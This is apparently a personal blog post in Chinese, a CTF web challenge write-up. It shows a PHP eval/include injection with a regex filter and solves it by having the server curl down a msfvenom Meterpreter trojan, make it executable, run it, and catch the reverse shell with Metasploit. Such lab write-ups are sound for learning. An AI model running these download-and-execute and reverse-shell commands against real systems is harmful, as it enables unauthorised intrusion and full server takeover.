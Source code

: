 ```yaml
---
layout: post
title: "mfs攻击"    
subtitle:   
date: 2020-09-20
author: "Mr Daemon"
catalog: true
tags:
    - ctf
    - mfs
---
```


### mfs攻击

经历了两天的时间, 我终于(在学长的帮助下)做出了第一道web题!!! 写个博客纪念且记录一下.

#### 题目环境

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if (isset($_GET['url'])) {
    if (!preg_match('/php|flag|zlib|ftp|phar|data|rar|ogg|expe|http|glob|ssh2|\^|\~|\(|\)|\[|\]|\,|\<|\>|\?|\\\|\[|\]|\=|\+|\;|\:|\'|\"/i', $_GET['url'])) {
        print $_GET['url'];
        eval("include " . $_GET['url'] . ";");
    } else {
        die('error');
    }
    //flag is in /flag and The format of flag is flag{xxxx}
}
```

#### 分析

0. 最后一行注释告诉我们本题flag存在`/flag `中
1. 由第一行的`error_reporting(0)`和后面的`eval()`得知本题是无回显的, 所以要寻找代码中漏洞提取服务器权限来查看`/flag`
2. 通过仔细观察`preg_match`函数分析得知参数中绝大部分特殊字符都被过滤, 故插入php代码片段的想法是不可行的
3. 经学长告知, 该题可以使用**msf** 来向服务器中安装后门木马来拿到flag

#### 工具&原料

0. 一个具有公网ip的设备(我用的vps)
1. 在上述设备上下载安装mfs

#### msf使用及具体构造方法

0. 首先通过f12->network可以观察到服务器环境为debian, 故需要准备linux版本的木马

1. 通过 `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<your_vps_ip> LPORT=<port> -f elf > shell.elf` 来创建x64 linux下的木马

   > 由于本题过滤了’:’, 故只能通过80端口来使服务器请求该木马, 所以木马上设置的端口不能为80

2. 向该题环境发送带参数的GET请求: 

   ```shell
   <addr>/?url=`curl -o /tmp/shell <your_vps_ip>/shell.elf` # let server download your trojan-horse
   <addr>/?url=`chmod 777 /tmp/shell` # make it executable
   <addr>/?url=`/tmp/shell` # run it!
   ```

3. 在题目环境服务器上成功安装并执行木马之后就可以在vps上操作服务器了:

   ```shell
   ➜  ~ msfconsole
   msf6 > use exploit/multi/handler
   msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
   msf6 exploit(multi/handler) > set LHOST <your_vps_ip>
   msf6 exploit(multi/handler) > set LPORT <port>
   msf6 exploit(multi/handler) > exploit
   ```

4. 之后就可以直接运行 `cat /flag` 拿到flag啦!